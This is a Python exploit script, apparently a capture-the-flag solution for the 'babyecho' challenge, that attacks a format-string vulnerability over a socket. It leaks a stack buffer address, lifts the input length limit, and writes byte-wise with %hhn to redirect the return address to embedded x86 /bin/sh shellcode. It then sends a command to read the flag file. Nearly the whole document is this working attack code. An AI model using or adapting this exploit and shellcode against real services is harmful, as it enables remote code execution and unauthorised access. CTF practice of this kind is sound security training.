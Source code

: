 </svg>


```python
#!/usr/bin/env python

import sys
import socket
import struct

HOST = 'localhost' # 'babyecho_eb11fdf6e40236b1a37b7974c53b6c3d.quals.shallweplayaga.me'
PORT = 3232

s = socket.create_connection((HOST, PORT))

def exploit():
    index = 7 # index of read/write buffer

    print(s.recv(8192))
    s.send("%5$10p\n") # request buffer address

    addr_buf = int(s.recv(10), 16)
    print("[DEBUG] Buffer address = 0x%x" % addr_buf)

    code = struct.pack('<I', (addr_buf - 0xb)) # address[buffer size limit] << 8
    code += "%%%d$ln\n" % index # write message text length = 4

    s.recv(8192)
    s.send(code) # overwrite buffer

    s.recv(8192)
    print(s.recv(8192))

    # x86 /bin/sh shellcode
    shellcode = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

    addr_ret = addr_buf - 0x20  # call return address = [esp]

    payload = struct.pack('<I', addr_ret) \
    + struct.pack('<I', addr_ret + 1) \
    + struct.pack('<I', addr_ret + 2) \
    + struct.pack('<I', addr_ret + 3) \
    + shellcode

    addr_shell = [
    addr_buf + 16 >> 0  & 0xff,
    addr_buf + 16 >> 8  & 0xff,
    addr_buf + 16 >> 16 & 0xff,
    addr_buf + 16 >> 24 & 0xff ]

    payload += "%%%dc%%%d$hhn" % ((addr_shell[0] - len(payload)) & 0xff, index) \
    + "%%%dc%%%d$hhn" % ((addr_shell[1] - addr_shell[0]) & 0xff, index + 1) \
    + "%%%dc%%%d$hhn" % ((addr_shell[2] - addr_shell[1]) & 0xff, index + 2) \
    + "%%%dc%%%d$hhn" % ((addr_shell[3] - addr_shell[2]) & 0xff, index + 3) \
    + "\n"

    s.send(payload) # exploit

    s.send("cat</home/babyecho/flag\n") # capture the flag
    print(s.recv(8192))
    print(s.recv(8192))

if __name__=='__main__':
    exploit()
```